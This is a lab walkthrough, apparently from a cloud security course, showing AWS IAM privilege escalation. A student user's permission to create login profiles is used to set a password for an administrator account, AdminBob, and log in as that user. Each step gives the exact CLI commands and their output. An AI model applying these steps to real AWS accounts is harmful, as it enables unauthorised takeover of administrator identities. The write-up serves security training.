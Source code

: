 # Overly permissive permission II

Overly Permissive Permission can be abused by a user to perform privileged operations.

Objective: Leverage the policy attached to the student user and attain administrative privileges on the AWS account.

----

1. Get access to AWS lab credentials.
2. Configure AWS CLI.
3. Get details of the current user:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam get-user
```

4. Get information about the policies attached to the user:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-user-policies --user-name student
{
    "PolicyNames": [
        "terraform-20230512111246646900000001"
    ]
}

┌──(kali㉿kali)-[~]
└─$ aws iam get-user-policy --user-name student --policy-name terraform-20230512111246646900000001
{
    "UserName": "student",
    "PolicyName": "terraform-20230512111246646900000001",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "iam:CreateLoginProfile",
                    "iam:ChangePassword"
                ],
                "Effect": "Allow",
                "Resource": "*"
            }
        ]
    }
}
```

The user has permission to create a login profile for any user.

5. Check for users with `AdministratorAccess` policy attached to them:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-users
{
    "Users": [
        {
            "Path": "/",
            "UserName": "AdminBob",
            "UserId": "AIDAWEU26T2LEI4WDLHIO",
            "Arn": "arn:aws:iam::422305504918:user/AdminBob",
            "CreateDate": "2023-05-12T11:12:46+00:00"
        },
        {
            "Path": "/",
            "UserName": "AdminJane",
            "UserId": "AIDAWEU26T2LFVJVEDGQI",
            "Arn": "arn:aws:iam::422305504918:user/AdminJane",
            "CreateDate": "2023-05-12T11:12:46+00:00"
        },
        {
            "Path": "/",
            "UserName": "identity",
            "UserId": "AIDAWEU26T2LPLATV2YRP",
            "Arn": "arn:aws:iam::422305504918:user/identity",
            "CreateDate": "2023-05-12T11:12:55+00:00"
        },
        {
            "Path": "/",
            "UserName": "student",
            "UserId": "AIDAWEU26T2LHYPC2TGST",
            "Arn": "arn:aws:iam::422305504918:user/student",
            "CreateDate": "2023-05-12T11:12:46+00:00"
        }
    ]
}

┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name AdminBob
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name AdminJane
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name identity 
{
    "AttachedPolicies": []
}
                                                                                                         
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name student 
{
    "AttachedPolicies": [
        {
            "PolicyName": "IAMReadOnlyAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/IAMReadOnlyAccess"
        }
    ]
}
```

6. Create a login profile for user AdminBob:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam create-login-profile --user-name AdminBob --password abcd@12345 --no-password-reset-required
{
    "LoginProfile": {
        "UserName": "AdminBob",
        "CreateDate": "2023-05-12T11:18:50+00:00",
        "PasswordResetRequired": false
    }
}
```

7. Sign in with the IAM user AdminBob and password "abcd@12345" in the AWS console.

![Overly Permissive AdminBob signs in](../../_static/images/permissive-bob.png)

Successfully gained access to AdminBob user.
